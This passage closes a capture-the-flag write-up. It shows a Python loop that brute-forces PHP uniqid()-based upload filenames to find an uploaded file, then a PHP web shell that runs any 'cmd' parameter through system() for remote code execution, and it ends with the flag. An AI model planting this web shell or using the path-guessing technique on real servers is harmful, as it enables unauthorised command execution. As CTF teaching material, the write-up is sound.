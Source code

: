 ```python
to_end = end - time
to_end *= 1_000_000
to_end = round(to_end + 30000) # just some extra to be safe
uid = uniqid(time)
print("uid", uid)

for c in tqdm(range(to_end)):
    uid = uniqid(time)
    path = uid + '_' + sha256(file.encode()).hexdigest() + '_' + file

    # print(path)
    r = requests.get(url + "?f=" + path)
    if 'QWERTY' in r.text:
        print(r.text)
        print(time)
        print(path)
        break

    time += 1 / 1000000
print(path)


print("FOUND IN", c)
```

## Third (and final) step: RCE

RCE was simple, we could simply include PHP code that called a series of `system` functions and we would be done. However one of our teammates (ty flocto) decided to make life a bit easier by using a PHP script that would take our input then run the system command on our input.

```html
<html> 
<body> QWERTY
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="TEXT" name="f" id="f" value=<?php echo $_GET['f']; ?>>
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

# Conclusion

Following through with all these steps led us to the flag `actf{w4tch_y0ur_p4th_724248b559281824}`.

Thanks to flocto ([twitter](https://twitter.com/fl0ct0)) and uanirudhx ([github](https://github.com/anirudhb)) for helping with this challenge!

